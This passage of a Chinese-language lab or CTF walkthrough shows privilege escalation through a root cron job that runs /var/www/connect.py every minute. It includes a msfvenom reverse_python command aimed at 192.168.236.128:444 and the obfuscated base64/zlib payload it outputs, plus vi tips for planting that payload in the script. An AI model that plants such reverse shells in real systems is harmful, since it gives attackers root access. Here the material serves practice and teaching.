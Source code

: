 再看一下cron.d，提示是一个文件夹，进去翻看有一个automate


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231342026-1477966051.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231342026-1477966051.png)


highlighter\- awk
```
* * * * * root /usr/bin/python /var/www/connect.py
```

每分钟以root权限执行/var/www/下的connect.py


那我们先看一下 cat /var/www/connect.py


highlighter\- d
```
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

#### msfvenom生成payload


highlighter\- routeros
```
sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.236.128 lport=444 -f raw

```

highlighter\- apache
```
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqNkFELgjAUhf/K2NOEuLUlYoQPEgYRFaTvkmuhZJt45/+PZbA9el92d+53zxnrPoMZLUEj38oSQlbkVzg1w2ikQvSacf1+7luDNqN8J4AnKYhtAlyk1M+daRbHsVcwmzNgPtj/lh/r07WoguRZL2+Hc11W9yK/RIEJSKO1kpYx9wK/5fKiADQIz2kQDOHV9UobFnl2s5DjCzkRcEPmfw7ko+8ZXTedXmNLoy8kd1w/')[0])))
```

用vi编辑器将payload插入进connect.py中，这里给了一些vi的常用命令


#### vi编辑器



> 默认情况下，VI编辑器是命令模式，需要在里面写东西的时候需要进入编辑模式
> 
> 
> 命令模式到编辑模式：插入命令i,附加命令a,打开命令o，修改命令c，取代命令r，替换命令s
> 
> 
> 编辑模式到命令模式：Esc
> 
> 
> \*\*退出流程：
> 
> 
> 1\.进入命令模式
> 
> 
> 2\.进入末行模式
> 
> 
> 3\.在末行模式输入以下内容，对应相应操作\*\*
> 
> 
> 【:w】 保存文件
> 
